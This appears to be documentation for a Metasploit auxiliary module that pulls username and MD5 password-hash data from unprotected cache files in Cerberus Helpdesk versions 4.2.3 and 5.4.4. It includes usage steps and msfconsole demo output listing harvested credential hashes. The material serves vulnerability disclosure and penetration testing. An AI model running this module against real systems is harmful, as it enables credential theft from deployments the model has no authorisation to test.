 ## Description

This module opens a `devblocks_cache---ch_workers` or `zend_cache---ch_workers` file which contains a
data structure with username and password hash (MD5) credentials.  The contents looks similar to JSON, however it is not.

## Vulnerable Application

This module has been verified against:

1. Version 4.2.3 Stable (Build 925)
2. Version 5.4.4

However it may also work up to, but no including, version 6.7

Version 5.4.4 is available on [exploit-db.com](https://www.exploit-db.com/apps/882596e791e54529b29ecbc6f48a6cb7-cerb5-5_4_4.zip)

* of note, 5.4.4 has to be installed on a PRE php7 environment.

## Verification Steps

1. Start msfconsole
2. ```use auxiliary/gather/cerberus_helpdesk_hash_disclosure```
3. ```set rhosts```
4. ```run```

## Demo

### 4.2.3 using zend (not verbose)

  ```
    msf > use auxiliary/gather/cerberus_helpdesk_hash_disclosure
    msf auxiliary(cerberus_helpdesk_hash_disclosure) > set rhosts 1.1.1.1
    rhosts => 1.1.1.1
    msf auxiliary(cerberus_helpdesk_hash_disclosure) > run
    
    [-] Invalid response received for /storage/tmp/devblocks_cache---ch_workers
    [+] admin:aaa34a6111abf0bd1b1c4d7cd7ebb37b
    [+] example:112302c209fe8d73f502c132a3da2b1c
    [+] foobar:0d108d09e5bbe40aade3de5c81e9e9c7
  ```

### 5.4.4 using devblocks

  ```
    msf > use auxiliary/gather/cerberus_helpdesk_hash_disclosure 
    rhost => 192.168.2.45
    msf auxiliary(cerberus_helpdesk_hash_disclosure) > set rhosts 192.168.2.45
    rhosts => 192.168.2.45
    msf auxiliary(cerberus_helpdesk_hash_disclosure) > set uri /cerb5/
    uri => /cerb5/
    msf auxiliary(cerberus_helpdesk_hash_disclosure) > set verbose true
    verbose => true
    msf auxiliary(cerberus_helpdesk_hash_disclosure) > run
    
    [*] Attempting to load data from /cerb5/storage/tmp/devblocks_cache---ch_workers
    [+] bar@none.com:37b51d194a7513e45b56f6524f2d51f2
    [+] foo@none.com:acbd18db4cc2f85cedef654fccc4a4d8
    [+] admin@example.com:18126e7bd3f84b3f3e4df094def5b7de
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
  ```